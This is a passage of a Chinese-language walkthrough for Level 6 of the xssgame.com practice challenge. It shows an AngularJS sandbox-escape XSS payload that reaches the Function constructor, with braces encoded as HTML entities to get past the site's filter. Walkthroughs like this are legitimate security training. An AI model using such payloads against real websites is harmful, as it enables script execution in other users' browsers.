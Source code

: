 ![Level_6_Query_String](/Image/Level_6_Query_String.png)
```
把'{'、'}'换成'&lcub;'、'&rcub;'试一下(google 来的~我也记不住是啥。)
也可以只替换'{',因为'}'并没有被过滤，不过我查都查了，替！
```

新的 URL：
```
http://www.xssgame.com/f/rWKWwJGnAeyi/?query=&lcub;&lcub;a='constructor';b=&lcub;&rcub;;a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert()')()&rcub;&rcub;
```
冲啊，旋风冲锋龙…… 「能他妈不中二了吗？」：

![Level_6_Pass](/Image/Level_6_Pass.png)
